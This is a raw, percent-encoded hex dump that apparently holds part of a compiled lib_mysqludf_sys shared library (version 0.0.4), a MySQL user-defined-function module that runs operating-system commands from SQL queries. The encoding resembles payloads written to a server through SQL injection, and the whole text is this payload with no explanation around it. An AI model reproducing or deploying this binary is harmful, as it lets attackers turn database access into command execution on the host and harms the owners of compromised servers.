30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%31%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%31%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%38%38%33%65%63%30%38%65%38%32%37%30%31%30%30%30%30%65%38%63%32%30%31%30%30%30%30%65%38%38%64%30%35%30%30%30%30%34%38%38%33%63%34%30%38%63%33%66%66%33%35%33%32%30%62%32%30%30%30%66%66%32%35%33%34%30%62%32%30%30%30%30%66%31%66%34%30%30%30%66%66%32%35%33%32%30%62%32%30%30%30%36%38%30%30%30%30%30%30%30%30%65%39%65%30%66%66%66%66%66%66%66%66%32%35%32%61%30%62%32%30%30%30%36%38%30%31%30%30%30%30%30%30%65%39%64%30%66%66%66%66%66%66%66%66%32%35%32%32%30%62%32%30%30%30%36%38%30%32%30%30%30%30%30%30%65%39%63%30%66%66%66%66%66%66%66%66%32%35%31%61%30%62%32%30%30%30%36%38%30%33%30%30%30%30%30%30%65%39%62%30%66%66%66%66%66%66%66%66%32%35%31%32%30%62%32%30%30%30%36%38%30%34%30%30%30%30%30%30%65%39%61%30%66%66%66%66%66%66%66%66%32%35%30%61%30%62%32%30%30%30%36%38%30%35%30%30%30%30%30%30%65%39%39%30%66%66%66%66%66%66%66%66%32%35%30%32%30%62%32%30%30%30%36%38%30%36%30%30%30%30%30%30%65%39%38%30%66%66%66%66%66%66%66%66%32%35%66%61%30%61%32%30%30%30%36%38%30%37%30%30%30%30%30%30%65%39%37%30%66%66%66%66%66%66%66%66%32%35%66%32%30%61%32%30%30%30%36%38%30%38%30%30%30%30%30%30%65%39%36%30%66%66%66%66%66%66%66%66%32%35%65%61%30%61%32%30%30%30%36%38%30%39%30%30%30%30%30%30%65%39%35%30%66%66%66%66%66%66%66%66%32%35%65%32%30%61%32%30%30%30%36%38%30%61%30%30%30%30%30%30%65%39%34%30%66%66%66%66%66%66%66%66%32%35%64%61%30%61%32%30%30%30%36%38%30%62%30%30%30%30%30%30%65%39%33%30%66%66%66%66%66%66%66%66%32%35%64%32%30%61%32%30%30%30%36%38%30%63%30%30%30%30%30%30%65%39%32%30%66%66%66%66%66%66%66%66%32%35%63%61%30%61%32%30%30%30%36%38%30%64%30%30%30%30%30%30%65%39%31%30%66%66%66%66%66%66%66%66%32%35%63%32%30%61%32%30%30%30%36%38%30%65%30%30%30%30%30%30%65%39%30%30%66%66%66%66%66%66%66%66%32%35%62%61%30%61%32%30%30%30%36%38%30%66%30%30%30%30%30%30%65%39%66%30%66%65%66%66%66%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%38%38%33%65%63%30%38%34%38%38%62%30%35%66%35%30%39%32%30%30%30%34%38%38%35%63%30%37%34%30%32%66%66%64%30%34%38%38%33%63%34%30%38%63%33%39%30%39%30%39%30%39%30%39%30%39%30%39%30%39%30%39%30%35%35%38%30%33%64%39%30%30%61%32%30%30%30%30%30%34%38%38%39%65%35%34%31%35%34%35%33%37%35%36%32%34%38%38%33%33%64%64%38%30%39%32%30%30%30%30%30%37%34%30%63%34%38%38%62%33%64%36%66%30%61%32%30%30%30%65%38%31%32%66%66%66%66%66%66%34%38%38%64%30%35%31%33%30%38%32%30%30%30%34%63%38%64%32%35%30%34%30%38%32%30%30%30%34%38%38%62%31%35%36%35%30%61%32%30%30%30%34%63%32%39%65%30%34%38%63%31%66%38%30%33%34%38%38%64%35%38%66%66%34%38%33%39%64%61%37%33%32%30%30%66%31%66%34%34%30%30%30%30%34%38%38%64%34%32%30%31%34%38%38%39%30%35%34%35%30%61%32%30%30%30%34%31%66%66%31%34%63%34%34%38%38%62%31%35%33%61%30%61%32%30%30%30%34%38%33%39%64%61%37%32%65%35%63%36%30%35%32%36%30%61%32%30%30%30%30%31%35%62%34%31%35%63%63%39%63%33%36%36%30%66%31%66%38%34%30%30%30%30%30%30%30%30%30%30%35%35%34%38%38%33%33%64%62%66%30%37%32%30%30%30%30%30%34%38%38%39%65%35%37%34%32%32%34%38%38%62%30%35%35%33%30%39%32%30%30%30%34%38%38%35%63%30%37%34%31%36%34%38%38%64%33%64%61%37%30%37%32%30%30%30%34%39%38%39%63%33%63%39%34%31%66%66%65%33%30%66%31%66%38%34%30%30%30%30%30%30%30%30%30%30%63%39%63%33%39%30%39%30%63%33%63%33%63%33%63%33%33%31%63%30%63%33%63%33%34%31%35%34%34%38%38%33%63%39%66%66%34%39%38%39%66%34%35%35%35%33%34%38%38%33%65%63%31%30%34%38%38%62%34%36%31%30%34%38%38%62%33%38%33%31%63%30%66%32%61%65%34%38%66%37%64%31%34%38%38%64%36%39%66%66%65%38%62%36%66%65%66%66%66%66%38%33%66%38%30%30%38%39%63%37%37%63%36%31%37%35%34%66%62%66%31%65%30%30%30%30%30%30%65%38%30%33%66%65%66%66%66%66%34%38%38%64%37%30%66%66%34%35%33%31%63%39%34%35%33%31%63%30%33%31%66%66%62%39%32%31%30%30%30%30%30%30%62%61%30%37%30%30%30%30%30%30%34%38%38%64%30%34%32%65%34%38%66%37%64%36%34%38%32%31%63%36%65%38%61%65%66%65%66%66%66%66%34%38%38%33%66%38%66%66%34%38%38%39%63%33%37%34%32%37%34%39%38%62%34%34%32%34%31%30%34%38%38%39%65%61%34%38%38%39%64%66%34%38%38%62%33%30%65%38%35%32%66%65%66%66%66%66%66%66%64%33%65%62%30%63%62%61%30%31%30%30%30%30%30%30%33%31%66%36%65%38%30%32%66%65%66%66%66%66%33%31%63%30%65%62%30%35%62%38%30%31%30%30%30%30%30%30%35%61%35%39%35%62%35%64%34%31%35%63%63%33%34%31%35%37%62%66%30%30%30%34%30%30%30%30%34%31%35%36%34%31%35%35%34%35%33%31%65%64%34%31%35%34%35%35%35%33%34%38%38%39%66%33%34%38%38%33%65%63%31%38%34%38%38%39%34%63%32%34%31%30%34%63%38%39%34%34%32%34%30%38%65%38%35%61%66%64%66%66%66%66%62%66%30%31%30%30%30%30%30%30%34%39%38%39%63%36%65%38%34%64%66%64%66%66%66%66%63%36%30%30%30%30%34%38%38%39%63%35%34%38%38%62%34%33%31%30%34%38%38%64%33%35%36%61%30%33%30%30%30%30%34%38%38%62%33%38%65%38%31%34%66%65%66%66%66%66%34%39%38%39%63%37%65%62%33%37%34%63%38%39%66%37%33%31%63%30%34%38%38%33%63%39%66%66%66%32%61%65%34%38%38%39%65%66%34%38%66%37%64%31%34%38%38%64%35%39%66%66%34%64%38%64%36%34%31%64%30%30%34%63%38%39%65%36%65%38%64%64%66%64%66%66%66%66%34%61%38%64%33%63%32%38%34%38%38%39%64%61%34%63%38%39%66%36%34%64%38%39%65%35%34%38%38%39%63%35%65%38%61%38%66%64%66%66%66%66%34%63%38%39%66%61%62%65%30%38%30%30%30%30%30%30%34%63%38%39%66%37%65%38%31%38%66%64%66%66%66%66%34%38%38%35%63%30%37%35%62%34%34%63%38%39%66%66%65%38%32%62%66%64%66%66%66%66%38%30%37%64%30%30%30%30%37%35%30%61%34%38%38%62%34%34%32%34%30%38%63%36%30%30%30%31%65%62%31%66%34%32%63%36%34%34%32%64%66%66%30%30%33%31%63%30%34%38%38%33%63%39%66%66%34%38%38%39%65%66%66%32%61%65%34%38%38%62%34%34%32%34%31%30%34%38%66%37%64%31%34%38%66%66%63%39%34%38%38%39%30%38%34%38%38%33%63%34%31%38%34%38%38%39%65%38%35%62%35%64%34%31%35%63%34%31%35%64%34%31%35%65%34%31%35%66%63%33%34%38%38%33%65%63%30%38%38%33%33%65%30%31%34%38%38%39%64%37%37%35%30%62%34%38%38%62%34%36%30%38%33%31%64%32%38%33%33%38%30%30%37%34%30%65%34%38%38%64%33%35%33%61%30%32%30%30%30%30%65%38%31%37%66%64%66%66%66%66%62%32%30%31%38%38%64%30%35%65%63%33%34%38%38%33%65%63%30%38%38%33%33%65%30%31%34%38%38%39%64%37%37%35%30%62%34%38%38%62%34%36%30%38%33%31%64%32%38%33%33%38%30%30%37%34%30%65%34%38%38%64%33%35%31%31%30%32%30%30%30%30%65%38%65%65%66%63%66%66%66%66%62%32%30%31%38%38%64%30%35%66%63%33%35%35%34%38%38%39%66%64%35%33%34%38%38%39%64%33%34%38%38%33%65%63%30%38%38%33%33%65%30%32%37%34%30%39%34%38%38%64%33%35%31%39%30%32%30%30%30%30%65%62%33%66%34%38%38%62%34%36%30%38%38%33%33%38%30%30%37%34%30%39%34%38%38%64%33%35%32%36%30%32%30%30%30%30%65%62%32%64%63%37%34%30%30%34%30%30%30%30%30%30%30%30%34%38%38%62%34%36%31%38%34%38%38%62%33%38%34%38%38%33%63%37%30%32%34%38%30%33%37%38%30%38%65%38%30%31%66%63%66%66%66%66%33%31%64%32%34%38%38%35%63%30%34%38%38%39%34%35%31%30%37%35%31%31%34%38%38%64%33%35%31%66%30%32%30%30%30%30%34%38%38%39%64%66%65%38%38%37%66%63%66%66%66%66%62%32%30%31%34%31%35%38%35%62%38%38%64%30%35%64%63%33%34%38%38%33%65%63%30%38%38%33%33%65%30%31%34%38%38%39%66%39%34%38%38%39%64%37%37%35%31%30%34%38%38%62%34%36%30%38%38%33%33%38%30%30%37%35%30%37%63%36%30%31%30%31%33%31%63%30%65%62%30%65%34%38%38%64%33%35%37%36%30%31%30%30%30%30%65%38%35%33%66%63%66%66%66%66%62%30%30%31%34%31%35%39%63%33%34%31%35%34%34%38%38%64%33%35%65%66%30%31%30%30%30%30%34%39%38%39%63%63%34%38%38%39%64%37%35%33%34%38%38%39%64%33%34%38%38%33%65%63%30%38%65%38%33%32%66%63%66%66%66%66%34%39%63%37%30%34%32%34%31%65%30%30%30%30%30%30%34%38%38%39%64%38%34%31%35%61%35%62%34%31%35%63%63%33%34%38%38%33%65%63%30%38%33%31%63%30%38%33%33%65%30%30%34%38%38%39%64%37%37%34%30%65%34%38%38%64%33%35%64%35%30%31%30%30%30%30%65%38%30%37%66%63%66%66%66%66%62%30%30%31%34%31%35%62%63%33%34%38%38%33%65%63%30%38%34%38%38%62%34%36%31%30%34%38%38%62%33%38%65%38%36%32%66%62%66%66%66%66%35%61%34%38%39%38%63%33%34%38%38%33%65%63%32%38%34%38%38%62%34%36%31%38%34%63%38%62%34%66%31%30%34%39%38%39%66%32%34%38%38%62%30%38%34%38%38%62%34%36%31%30%34%63%38%39%63%66%34%38%38%62%30%30%34%64%38%64%34%34%30%39%30%31%34%38%38%39%63%36%66%33%61%34%34%63%38%39%63%37%34%39%38%62%34%32%31%38%34%38%38%62%30%30%34%31%63%36%30%34%30%31%30%30%34%39%38%62%34%32%31%30%34%39%38%62%35%32%31%38%34%38%38%62%34%30%30%38%34%38%38%62%34%61%30%38%62%61%30%31%30%30%30%30%30%30%34%38%38%39%63%36%66%33%61%34%34%63%38%39%63%36%34%63%38%39%63%66%34%39%38%62%34%32%31%38%34%38%38%62%34%30%30%38%34%31%63%36%30%34%30%30%30%30%65%38%36%37%66%62%66%66%66%66%34%38%38%33%63%34%32%38%34%38%39%38%63%33%34%38%38%62%37%66%31%30%34%38%38%35%66%66%37%34%30%35%65%39%31%32%66%62%66%66%66%66%63%33%35%35%34%38%38%39%63%64%35%33%34%63%38%39%63%33%34%38%38%33%65%63%30%38%34%38%38%62%34%36%31%30%34%38%38%62%33%38%65%38%34%39%66%62%66%66%66%66%34%38%38%35%63%30%34%38%38%39%63%32%37%35%30%35%63%36%30%33%30%31%65%62%31%35%33%31%63%30%34%38%38%33%63%39%66%66%34%38%38%39%64%37%66%32%61%65%34%38%66%37%64%31%34%38%66%66%63%39%34%38%38%39%34%64%30%30%35%39%35%62%34%38%38%39%64%30%35%64%63%33%39%30%39%30%39%30%39%30%39%30%39%30%39%30%39%30%35%35%34%38%38%39%65%35%35%33%34%38%38%33%65%63%30%38%34%38%38%62%30%35%63%38%30%33%32%30%30%30%34%38%38%33%66%38%66%66%37%34%31%39%34%38%38%64%31%64%62%62%30%33%32%30%30%30%30%66%31%66%30%30%34%38%38%33%65%62%30%38%66%66%64%30%34%38%38%62%30%33%34%38%38%33%66%38%66%66%37%35%66%31%34%38%38%33%63%34%30%38%35%62%63%39%63%33%39%30%39%30%34%38%38%33%65%63%30%38%65%38%36%66%66%62%66%66%66%66%34%38%38%33%63%34%30%38%63%33%34%35%37%38%37%30%36%35%36%33%37%34%36%35%36%34%32%30%36%35%37%38%36%31%36%33%37%34%36%63%37%39%32%30%36%66%36%65%36%35%32%30%37%33%37%34%37%32%36%39%36%65%36%37%32%30%37%34%37%39%37%30%36%35%32%30%37%30%36%31%37%32%36%31%36%64%36%35%37%34%36%35%37%32%30%30%34%35%37%38%37%30%36%35%36%33%37%34%36%35%36%34%32%30%36%35%37%38%36%31%36%33%37%34%36%63%37%39%32%30%37%34%37%37%36%66%32%30%36%31%37%32%36%37%37%35%36%64%36%35%36%65%37%34%37%33%30%30%34%35%37%38%37%30%36%35%36%33%37%34%36%35%36%34%32%30%37%33%37%34%37%32%36%39%36%65%36%37%32%30%37%34%37%39%37%30%36%35%32%30%36%36%36%66%37%32%32%30%36%65%36%31%36%64%36%35%32%30%37%30%36%31%37%32%36%31%36%64%36%35%37%34%36%35%37%32%30%30%34%33%36%66%37%35%36%63%36%34%32%30%36%65%36%66%37%34%32%30%36%31%36%63%36%63%36%66%36%33%36%31%37%34%36%35%32%30%36%64%36%35%36%64%36%66%37%32%37%39%30%30%36%63%36%39%36%32%35%66%36%64%37%39%37%33%37%31%36%63%37%35%36%34%36%36%35%66%37%33%37%39%37%33%32%30%37%36%36%35%37%32%37%33%36%39%36%66%36%65%32%30%33%30%32%65%33%30%32%65%33%34%30%30%34%65%36%66%32%30%36%31%37%32%36%37%37%35%36%64%36%35%36%65%37%34%37%33%32%30%36%31%36%63%36%63%36%66%37%37%36%35%36%34%32%30%32%38%37%35%36%34%36%36%33%61%32%30%36%63%36%39%36%32%35%66%36%64%37%39%37%33%37%31%36%63%37%35%36%34%36%36%35%66%37%33%37%39%37%33%35%66%36%39%36%65%36%36%36%66%32%39%30%30%30%30%30%31%31%62%30%33%33%62%39%38%30%30%30%30%30%30%31%32%30%30%30%30%30%30%34%30%66%62%66%66%66%66%62%34%30%30%30%30%30%30%34%31%66%62%66%66%66%66%63%63%30%30%30%30%30%30%34%32%66%62%66%66%66%66%65%34%30%30%30%30%30%30%34%33%66%62%66%66%66%66%66%63%30%30%30%30%30%30%34%34%66%62%66%66%66%66%31%34%30%31%30%30%30%30%34%37%66%62%66%66%66%66%32%63%30%31%30%30%30%30%34%38%66%62%66%66%66%66%34%34%30%31%30%30%30%30%65%32%66%62%66%66%66%66%36%63%30%31%30%30%30%30%63%61%66%63%66%66%66%66%61%34%30%31%30%30%30%30%66%33%66%63%66%66%66%66%62%63%30%31%30%30%30%30%31%63%66%64%66%66%66%66%64%34%30%31%30%30%30%30%38%36%66%64%66%66%66%66%66%34%30%31%30%30%30%30%62%36%66%64%66%66%66%66%30%63%30%32%30%30%30%30%65%33%66%64%66%66%66%66%32%63%30%32%30%30%30%30%30%32%66%65%66%66%66%66%34%34%30%32%30%30%30%30%31%36%66%65%66%66%66%66%35%63%30%32%30%30%30%30%38%34%66%65%66%66%66%66%37%34%30%32%30%30%30%30%39%33%66%65%66%66%66%66%38%63%30%32%30%30%30%30%31%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%37%61%35%32%30%30%30%31%37%38%31%30%30%31%31%62%30%63%30%37%30%38%39%30%30%31%30%30%30%30%31%34%30%30%30%30%30%30%31%63%30%30%30%30%30%30%38%34%66%61%66%66%66%66%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%33%34%30%30%30%30%30%30%36%64%66%61%66%66%66%66%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%34%63%30%30%30%30%30%30%35%36%66%61%66%66%66%66%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%33%66%66%61%66%66%66%66%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%37%63%30%30%30%30%30%30%32%38%66%61%66%66%66%66%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%39%34%30%30%30%30%30%30%31%33%66%61%66%66%66%66%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%34%30%30%30%30%30%30%61%63%30%30%30%30%30%30%66%63%66%39%66%66%66%66%39%61%30%30%30%30%30%30%30%30%34%32%30%65%31%30%38%63%30%32%34%38%30%65%31%38%34%31%30%65%32%30%34%34%30%65%33%30%38%33%30%34%38%36%30%33%30%30%30%30%30%30%30%30%30%30%33%34%30%30%30%30%30%30%64%34%30%30%30%30%30%30%36%65%66%61%66%66%66%66%65%38%30%30%30%30%30%30%30%30%34%32%30%65%31%30%34%37%30%65%31%38%34%32%30%65%32%30%38%64%30%34%38%65%30%33%38%66%30%32%34%35%30%65%32%38%34%31%30%65%33%30%34%31%30%65%33%38%38%33%30%37%38%36%30%36%38%63%30%35%34%37%30%65%35%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%30%63%30%31%30%30%30%30%31%65%66%62%66%66%66%66%32%39%30%30%30%30%30%30%30%30%34%34%30%65%31%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%32%34%30%31%30%30%30%30%32%66%66%62%66%66%66%66%32%39%30%30%30%30%30%30%30%30%34%34%30%65%31%30%30%30%30%30%30%30%30%30%31%63%30%30%30%30%30%30%33%63%30%31%30%30%30%30%34%30%66%62%66%66%66%66%36%61%30%30%30%30%30%30%30%30%34%31%30%65%31%30%38%36%30%32%34%34%30%65%31%38%38%33%30%33%34%37%30%65%32%30%30%30%30%30%31%34%30%30%30%30%30%30%35%63%30%31%30%30%30%30%38%61%66%62%66%66%66%66%33%30%30%30%30%30%30%30%30%30%34%34%30%65%31%30%30%30%30%30%30%30%30%30%31%63%30%30%30%30%30%30%37%34%30%31%30%30%30%30%61%32%66%62%66%66%66%66%32%64%30%30%30%30%30%30%30%30%34%32%30%65%31%30%38%63%30%32%34%65%30%65%31%38%38%33%30%33%34%37%30%65%32%30%30%30%30%30%31%34%30%30%30%30%30%30%39%34%30%31%30%30%30%30%61%66%66%62%66%66%66%66%31%66%30%30%30%30%30%30%30%30%34%34%30%65%31%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%61%63%30%31%30%30%30%30%62%36%66%62%66%66%66%66%31%34%30%30%30%30%30%30%30%30%34%34%30%65%31%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%63%34%30%31%30%30%30%30%62%32%66%62%66%66%66%66%36%65%30%30%30%30%30%30%30%30%34%34%30%65%33%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%64%63%30%31%30%30%30%30%30%38%66%63%66%66%66%66%30%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%63%30%30%30%30%30%30%66%34%30%31%30%30%30%30%66%66%66%62%66%66%66%66%34%31%30%30%30%30%30%30%30%30%34%31%30%65%31%30%38%36%30%32%34%34%30%65%31%38%38%33%30%33%34%37%30%65%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%66%66%66%66%66%66%66%66%66%66%66%66%66%66%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%66%66%66%66%66%66%66%66%66%66%66%66%66%66%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%32%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%38%31%31%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%38%30%31%30%30%30%30%30%30%30%30%30%30%30%30%66%35%66%65%66%66%36%66%30%30%30%30%30%30%30%30%61%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%38%30%37%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%38%31%36%32%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%65%66%66%66%66%36%66%30%30%30%30%30%30%30%30%61%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%66%66%66%66%66%66%36%66%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%30%66%66%66%66%36%66%30%30%30%30%30%30%30%30%34%38%30%39%30%30%30%30%30%30%30%30%30%30%30%30%66%39%66%66%66%66%36%66%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%31%35%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%65%30%62%30%30%30%30%30%30%30%30%30%30%30%30%64%65%30%62%30%30%30%30%30%30%30%30%30%30%30%30%65%65%30%62%30%30%30%30%30%30%30%30%30%30%30%30%66%65%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%31%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%32%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%33%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%34%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%35%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%36%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%37%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%38%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%39%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%61%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%62%65%30%63%30%30%30%30%30%30%30%30%30%30%30%30%38%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%30%34%37%34%33%34%33%33%61%32%30%32%38%34%34%36%35%36%32%36%39%36%31%36%65%32%30%33%34%32%65%33%33%32%65%33%32%32%64%33%31%32%65%33%31%32%39%32%30%33%34%32%65%33%33%32%65%33%32%30%30%30%30%34%37%34%33%34%33%33%61%32%30%32%38%34%34%36%35%36%32%36%39%36%31%36%65%32%30%33%34%32%65%33%33%32%65%33%32%32%64%33%31%32%65%33%31%32%39%32%30%33%34%32%65%33%33%32%65%33%32%30%30%30%30%34%37%34%33%34%33%33%61%32%30%32%38%34%34%36%35%36%32%36%39%36%31%36%65%32%30%33%34%32%65%33%33%32%65%33%32%32%64%33%31%32%65%33%31%32%39%32%30%33%34%32%65%33%33%32%65%33%32%30%30%30%30%34%37%34%33%34%33%33%61%32%30%32%38%34%34%36%35%36%32%36%39%36%31%36%65%32%30%33%34%32%65%33%33%32%65%33%32%32%64%33%31%32%65%33%31%32%39%32%30%33%34%32%65%33%33%32%65%33%32%30%30%30%30%34%37%34%33%34%33%33%61%32%30%32%38%34%34%36%35%36%32%36%39%36%31%36%65%32%30%33%34%32%65%33%33%32%65%33%32%32%64%33%31%32%65%33%31%32%39%32%30%33%34%32%65%33%33%32%65%33%32%30%30%30%30%32%65%37%33%36%38%37%33%37%34%37%32%37%34%36%31%36%32%30%30%32%65%36%37%36%65%37%35%32%65%36%38%36%31%37%33%36%38%30%30%32%65%36%34%37%39%36%65%37%33%37%39%36%64%30%30%32%65%36%34%37%39%36%65%37%33%37%34%37%32%30%30%32%65%36%37%36%65%37%35%32%65%37%36%36%35%37%32%37%33%36%39%36%66%36%65%30%30%32%65%36%37%36%65%37%35%32%65%37%36%36%35%37%32%37%33%36%39%36%66%36%65%35%66%37%32%30%30%32%65%37%32%36%35%36%63%36%31%32%65%36%34%37%39%36%65%30%30%32%65%37%32%36%35%36%63%36%31%32%65%37%30%36%63%37%34%30%30%32%65%36%39%36%65%36%39%37%34%30%30%32%65%37%34%36%35%37%38%37%34%30%30%32%65%36%36%36%39%36%65%36%39%30%30%32%65%37%32%36%66%36%34%36%31%37%34%36%31%30%30%32%65%36%35%36%38%35%66%36%36%37%32%36%31%36%64%36%35%35%66%36%38%36%34%37%32%30%30%32%65%36%35%36%38%35%66%36%36%37%32%36%31%36%64%36%35%30%30%32%65%36%33%37%34%36%66%37%32%37%33%30%30%32%65%36%34%37%34%36%66%37%32%37%33%30%30%32%65%36%61%36%33%37%32%30%30%32%65%36%34%37%39%36%65%36%31%36%64%36%39%36%33%30%30%32%65%36%37%36%66%37%34%30%30%32%65%36%37%36%66%37%34%32%65%37%30%36%63%37%34%30%30%32%65%36%34%36%31%37%34%36%31%30%30%32%65%36%32%37%33%37%33%30%30%32%65%36%33%36%66%36%64%36%64%36%35%36%65%37%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%